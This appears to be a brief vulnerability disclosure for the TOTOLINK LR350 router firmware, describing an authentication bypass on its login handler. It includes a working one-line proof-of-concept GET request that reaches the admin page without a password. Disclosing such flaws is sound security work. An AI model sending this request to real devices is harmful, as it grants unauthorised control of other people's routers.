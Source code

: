 # TOTOLINK LR350 Vulnerability
---
-   Vendor: TOTOLINK
-   Product: LR350
-   Version: LR350_firmware - V9.3.5u.6369_B20220309
-   Vuln Type: formAuthLogin bypass    
-   Author: c0nyy, Reisen_1943    

### Vulnerability description:

---
 - This vulnerability allows remote attackers to access the admin page without a password by manipulating the **authCode** parameter to **1** and setting the **goURL** parameter to **home.html**.
 - PoC: **GET /formLoginAuth.htm?authCode=1&userName=admin&goURL=home.html&action=login HTTP/1.1**

![POC_LR350](https://github.com/user-attachments/assets/a714554e-a6d8-420e-af00-4bbd53a3dfe1)
